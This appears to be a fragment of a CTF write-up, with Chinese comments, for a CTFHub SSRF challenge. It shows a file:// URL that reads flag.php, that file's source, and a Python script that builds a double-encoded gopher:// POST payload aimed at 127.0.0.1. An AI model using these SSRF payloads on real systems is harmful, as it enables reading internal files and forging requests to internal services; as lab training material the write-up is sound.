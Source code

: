 ```
curl_exec($ch);
curl_close($ch);

```

> 
读flag.php的源码


```
http://challenge-aa5afefd4daec439.sandbox.ctfhub.com:10800/?url=file:///var/www/html/flag.php

```

```
&lt;?php

error_reporting(0);

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") {
    echo "Just View From 127.0.0.1";
    return;
}

$flag=getenv("CTFHUB");
$key = md5($flag);

if (isset($_POST["key"]) &amp;&amp; $_POST["key"] == $key) {
    echo $flag;
    exit;
}
?&gt;

&lt;form action="/flag.php" method="post"&gt;
&lt;input type="text" name="key"&gt;
&lt;!-- Debug: key=&lt;?php echo $key;?&gt;--&gt;
&lt;/form&gt;

```

> 
用Gopher协议构造post请求


```
import urllib.parse
payload =\
"""POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=c384d200658f258e5b5c681bf0aa29a8
"""  

#注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(payload)
new = tmp.replace('%0A','%0D%0A')
result = 'gopher://127.0.0.1:80/'+'_'+new
result = urllib.parse.quote(result)
print(result)       # 这里因为是GET请求所以要进行两次url编码

```
